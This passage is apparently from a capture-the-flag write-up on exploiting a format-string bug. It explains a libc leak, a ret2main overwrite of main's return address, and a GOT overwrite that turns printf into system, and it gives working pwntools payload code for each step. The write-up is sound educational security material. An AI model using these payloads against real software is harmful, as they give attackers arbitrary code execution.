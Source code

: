 0xf0 is the offset in `__libc_start_main`. `libc_leak` is the address stored as return address for `main`

### ret2main

At the time I was exploiting this challenge, I didn't realise I can use one gadget and jmp straight to `libc` to `execve('/bin/sh')`. Thus, I wanted to return to main to give myself another round of format string inputs. To do this, I computed the address where the `main`'s return address is stored and with second `printf` call, I wrote `main`'s address. This way, after finishing `main`, we jump back to `main` again.

Obtaining the pointer to return address(at stack) for `main`, storing it as `ret_addr` was done using stack address leaked in previous step and subtracting constant from it (I don't know where was the leaked address meant to be pointing, but it was a constant offset from `ret_addr`, so I used it)

```python
payload_ret2main = b'%20$n%64s%21$hn%1799s%22$hn     '
payload_ret2main += p64(ret_addr + 4)
payload_ret2main += p64(ret_addr + 2)
payload_ret2main += p64(ret_addr)
```

Let's have a look at the payload closer:

```

writes 0x00000000 to ret_addr + 4
  |
  |  writes 0x0040 to ret_addr + 2
  |     |
  |     |         writes 0x0747 to ret_addr
  |     |           |
__|__ __|_____ _____|______  ___ <----- rest is padding
%20$n%64s%21$hn%1799s%22$hn     '

```
This causes ret_addr now contains `0x0000000000400747`, which is the address of `main`.


### GOT overwrite

In previous section I had to write known address to unknown place. This time it's going to be the other way around. We will be writing the leaked `libc_system` address to known `GOT` entry of `printf`. I decided to only overwrite the lower 3 bytes, since the higher bytes had to remain the same from `printf`. I first wrote the higher byte and then the remaining two as a word. 

```python
def write(what, where):
    what = what & 0xffffff
    hi_byte = what >> 16
    low_word = what & 0xffff

    log.info(f'printing {hi_byte} to {where +2} and {low_word} to {where}')

    payload = b'%12$'
    payload += str(hi_byte).encode()
    payload += b's%12$hhn'
    payload += b'%12$'
    payload += str(low_word -hi_byte).encode()
    payload += b's%13$hn'
    payload += (32-len(payload))*b' '
    payload += p64(where+2)
    payload += p64(where)
    return payload
```
After sending this payload to the first `printf` call, each of the following `printf` calls will actually call `system` instead of printf. We overwrote it's `GOT` entry.
